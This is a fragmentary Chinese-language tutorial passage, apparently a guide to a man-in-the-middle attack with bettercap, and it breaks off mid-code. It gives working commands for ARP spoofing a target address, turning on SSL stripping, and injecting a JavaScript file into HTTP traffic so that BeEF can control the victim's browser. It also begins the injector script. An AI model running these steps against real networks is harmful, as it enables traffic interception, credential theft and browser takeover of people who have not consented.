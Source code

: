 ```javascript


}
```

![img](./assets/615a0b267a6e4402b86f306ba7befa2b.png)

当目标机访问一个http或者https协议的站点时，就可以看到脚本已经注入到请求的网站。

![img](./assets/d5264ed0babe4954a36be21e074b166e.png)



### **结合 beef-xss 注入**

既然我们可以注入js脚本，那么我们就可以利用beef来对目标浏览器进行控制。

> set arp.spoof.targets 172.20.10.13   #设置arp欺骗的目标
> set http.proxy.script  /root/test.js     #往http流量中注入脚本/root/test.js
> set http.proxy.sslstrip true   #启用SSL剥离
>
> http.proxy on  #开启HTTP代理
> arp.spoof on  #开启ARP欺骗

test.js 内容如下：

```javascript
function onResponse(req,res){



    if(res.ContentType.indexOf('text/html')==0){



        var body=res.ReadBody();



        if(body.indexOf('</head>')!=-1){



```